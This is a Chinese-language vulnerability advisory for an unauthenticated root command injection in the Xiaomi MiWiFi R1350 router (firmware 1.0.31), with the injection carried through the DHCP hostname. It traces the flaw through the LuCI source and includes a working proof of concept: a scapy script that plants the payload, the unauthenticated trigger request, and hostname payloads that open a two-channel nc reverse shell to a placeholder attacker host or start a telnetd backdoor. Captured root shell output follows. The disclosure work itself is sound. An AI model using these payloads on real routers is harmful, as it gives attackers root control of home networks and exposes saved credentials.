





# 小米 MiWiFi R1350 路由器

- 厂商：小米（Xiaomi）
- 产品：小米 AIoT 路由器 R1350（AC1200）
- 固件版本：1.0.31（miwifi_r1350_firmware_7449d_1.0.31.bin，QSDK / OpenWrt，MIPS32 大端）
- 漏洞类型：未授权操作系统命令注入（CWE-78）

## 概述

小米 MiWiFi R1350 路由器（固件 1.0.31）存在一个未授权命令注入漏洞。LAN 侧攻击者**无需任何认证、也无需知道管理员密码**，即可获得 root 权限的任意命令执行。触发注入的接口为：

`GET /cgi-bin/luci/api/misns/sns_init?callback=x HTTP/1.1`

该路由以授权标志位 `0x01`（`noauth`）注册，完全绕过 LuCI 的 `sysauth` 会话检查（见 `luci/dispatcher.lua` 中 `_noauthAccessAllowed`，bit 0x01）。利用的前提是攻击者曾经从路由器获取过 DHCP 租约（任何 LAN 客户端默认如此），因为被注入的数据经由 DHCP 客户端主机名（hostname）传递。

## 漏洞详情

Web 栈为 `nginx :80 → fastcgi（spawn-fcgi/fcgi-cgi，监听 127.0.0.1:8920）→ /www/cgi-bin/luci（Lua，LuCI dispatcher）`，以 root 身份运行。

污点链（所有路径均相对于固件根目录）：

1. **污点源 —— DHCP 主机名。** 攻击者控制的 DHCP option 12（host name）被 dnsmasq 原样写入 `/tmp/dhcp.leases`（按空白分隔的第 4 个字段），不做任何字符过滤：
   
   
   
```
   1900000000 f8:fe:5e:46:33:f9 192.168.1.4 $(id>/tmp/pwned)
```

2. **读取 —— `xiaoqiang/util/XQDeviceUtil.lua:122-157`（`getDHCPList`）** 用 `line:match("^(%d+) (%S+) (%S+) (%S+)")` 解析每行租约；主机名字段接受任意非空白字符（包括 `$ ( ) { } | & ; \` "` 等 shell 元字符），且不加修改地返回。

   

3. **汇聚点（Sink）—— `luci/controller/api/misns.lua:92-109`（`snsInit`）**：

   

   

   ```lua
   -- misns.lua:17  entry({"api","misns","sns_init"}, call("snsInit"), (""), 206, 0x01)  -- 0x01 = noauth
   -- misns.lua:103 local mac = luci.dispatcher.getremotemac()          -- 攻击者 IP -> ARP -> 其自身 MAC
   -- misns.lua:105 local dhcpinfo = XQDeviceUtil.getDHCPDict()[mac] or {}
   -- misns.lua:106 local dhcp = dhcpinfo["name"] or ""                 -- 攻击者的 DHCP 主机名，无任何净化
   -- misns.lua:107 local cmd = string.format("matool --method enc --params \"{\\\"mac\\\":\\\"%s\\\",\\\"dhcp\\\":\\\"%s\\\"}\"", mac, dhcp)
   -- misns.lua:108 result.clientinfo = LuciUtil.trim(LuciUtil.exec(cmd))  -- io.popen -> /bin/sh -c
   ```

   `dhcp` 被在**双引号** shell 字符串中插值且未做任何转义。同类的兄弟控制器 `api/miats.lua` 对同类参数使用 `XQFunction._cmdformat()` 净化（会转义 `` \ ` " $ ``）；而 `misns.lua` 漏掉了这个调用——这一遗漏正是根因。

4. **执行。** 最终交给 `/bin/sh -c` 的命令为：
   ```
   matool --method enc --params "{\"mac\":\"f8:fe:5e:46:33:f9\",\"dhcp\":\"$(id>/tmp/pwned)\"}"
   ```
   由于 payload 位于双引号内，`$(...)`、反引号和 `${...}` 都会被 shell 展开。DHCP 主机名不能包含空白字符（`%S+` 解析会将其截断），可用 `${IFS}` 代替空格。

## 漏洞证明（PoC）

第 1 步 —— 将 payload 作为攻击机 DHCP 主机名植入（任何允许自定义 option-12 原始值的 DHCP 客户端均可；以下为 Linux 攻击机示例）：

```bash
# 用 scapy 一次性发送（或者直接修改系统主机名后重新联网）
python3 -c "
from scapy.all import Ether/IP/UDP/BOOTP/DHCP
hostname = '\$(telnetd -p 1337 -l /bin/sh)'   # 不能含空格：如有需要请用 \${IFS}
dhcp = DHCP(options=[('message-type','discover'),(12,hostname),('param_req_list',[1,3,6,15]),'end'])
sendp(Ether(dst='ff:ff:ff:ff:ff:ff')/IP(src='0.0.0.0',dst='255.255.255.255')/UDP(sport=68,dport=67)/BOOTP(chaddr=...)/dhcp)
"
```

dnsmasq 会将该主机名原样写入 `/tmp/dhcp.leases`。

第 2 步 —— 触发注入（无需认证；必须从植入主机名的同一台机器发起，因为 `getremotemac()` 会把请求来源 IP 映射为租约中的 MAC）：

```http
GET /cgi-bin/luci/api/misns/sns_init?callback=poc HTTP/1.1
Host: 192.168.31.1

```

响应（处理器仍返回正常的 JSONP）：

```json
poc({"deviceid":"","clientinfo":"","ssid":"  小米共享WiFi_","code":0});
```

curl 一行命令：

```bash
curl -s "http://<router>/cgi-bin/luci/api/misns/sns_init?callback=poc"
```

作为主机名的反弹 shell payload（该固件的 busybox `nc` 没有 `-e` 选项）：

```
# 双通道反弹 shell（稳定）
$(tail${IFS}-f${IFS}/dev/null|nc${IFS}<LHOST>${IFS}7411|/bin/sh|nc${IFS}<LHOST>${IFS}7412)

# 或者 telnetd 后门（原厂固件存在 /proc/xiaoqiang/ft_mode，因此 telnetd 可正常启动）
$(telnetd${IFS}-p${IFS}1337${IFS}-l${IFS}/bin/sh)
```

## 影响

任意 LAN 客户端（或任何能诱导某客户端获取 DHCP 租约的人，例如利用默认近乎开放的 Wi-Fi 配网窗口 / WPS）都可以 **root** 身份执行任意命令——fastcgi 拉起的 Lua 后端以 root 运行——从而导致设备完全失陷：凭据窃取（已保存的 PPPoE/Wi-Fi 密码）、持久化后门、DNS 劫持以及向家庭内网横向渗透。全程无需任何认证。

## 复现结果

该漏洞已在 qemu-mips（用户态）+ chroot 模拟的固件环境中动态验证：原始 `nginx → fcgi-cgi → LuCI` 栈在 80 端口提供 HTTP 服务，并预先植入一条 DHCP 主机名租约：



```
$ curl -s "http://192.168.1.5/cgi-bin/luci/api/misns/sns_init?callback=poc"
poc({"deviceid":"","clientinfo":"","ssid":"  小米共享WiFi_","code":0});

$ cat /tmp/pwned
uid=0(root) gid=0(root) groups=0(root)
```

此外还从模拟路由器向 Windows 攻击机弹回了交互式 root shell（双通道 `nc` payload，主机名为 `$(tail${IFS}-f${IFS}/dev/null|nc...|/bin/sh|nc...)`）：

```
[+] cmd channel from ('192.168.1.5', 58744)
[+] out channel from ('192.168.1.5', 48154)
=== SHELL OUTPUT ===
uid=0(root) gid=0(root) groups=0(root)
Linux iotseczone 6.8.0-136-generic ... mips GNU/Linux
===PWNED-BY-MISNS-SNS-INIT===
```
